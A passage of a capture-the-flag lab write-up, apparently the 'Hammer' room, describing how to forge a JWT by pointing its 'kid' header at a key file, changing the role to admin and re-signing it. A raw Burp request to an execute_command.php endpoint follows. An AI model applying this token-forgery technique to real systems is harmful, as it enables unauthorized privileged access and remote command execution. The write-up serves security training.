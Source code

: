 Issue seems to be that the page has a script section that logs us out after 20 seconds, so, there's few time to perform actions on the server, so, let's begin with decoding the token:

```ad-hint
#### Starting the decoding
----

For decoding this token I used this website: [URL](https://jwt.io/#debugger-io)

![](Pasted%20image%2020241118175307.png)

To finish the decoding, we need the 256 bit secret, which can be found in the `188ade1.key` file, let's get the secret:

![](Pasted%20image%2020241118175423.png)
![](Pasted%20image%2020241118175454.png)
We got the 256 bit secret, let's do the following:
![](Pasted%20image%2020241118175749.png)
1. Change the `kid` to the path we think the file is located at, in this case, `/var/www/html/188ade1.key`.
2. Change the `role` to `admin`
3. Enter the 256 bit secret
4. Get our new jwtToken and use `burp` to send a request with it, in order to perform higher privileged actions.

## Sending the burp request:

![](Pasted%20image%2020241118180103.png)
```

```r
POST /execute_command.php HTTP/1.1

Host: 10.10.176.51:1337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json

Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzMxOTcwNzA3LCJleHAiOjE3MzE5NzQzMDcsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.8eF5rLcT9OeSj4CZ_1NjKIsNEF54boyTSetZlnqQmQY

X-Requested-With: XMLHttpRequest

Content-Length: 16

Origin: http://10.10.176.51:1337

Connection: keep-alive

Referer: http://10.10.176.51:1337/dashboard.php

Cookie: PHPSESSID=cgvmui0ktgr6fuu1atg9jhrka6; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzMxOTcwNzA3LCJleHAiOjE3MzE5NzQzMDcsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.8eF5rLcT9OeSj4CZ_1NjKIsNEF54boyTSetZlnqQmQY; persistentSession=no

```